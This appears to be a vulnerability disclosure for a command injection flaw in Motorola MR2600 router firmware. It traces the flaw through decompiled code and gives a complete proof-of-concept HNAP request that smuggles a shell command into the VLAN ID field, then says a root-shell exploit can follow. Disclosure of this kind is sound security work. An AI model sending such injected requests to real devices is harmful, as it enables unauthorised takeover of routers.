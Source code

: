 # Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version

![image-20220522091248943](img/image-20220522091248943.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220522105524462](img/image-20220522105524462.png)

By/SaveVLANParams/VLANIDInfoLists/VLANID: 0 / VID to v18 parameters of access to content

![image-20220522105550776](img/image-20220522105550776.png)

Format v18 into v54 with the snprintf function, setting v54 to the value of WAN_WAN0_IFNAME

![image-20220522105606905](img/image-20220522105606905.png)

The rc program transmits the obtained content to V13 through nvram_safe_get, formats V13 into V43 through snprintf, and finally executes the content in V43 through Twsysytem. Command injection vulnerability exists

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SaveVLANParams xmlns="http://purenetworks.com/HNAP1/">
	<VLANIDInfoLists>
		<VLANID:0>
			<VID> && ls > /tmp/456 && echo 1</VID>
		</VLANID:0>
	</VLANIDInfoLists>
</SaveVLANParams>
</soap:Body>
</soap:Envelope>
```

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220522091701627](img/image-20220522091701627.png)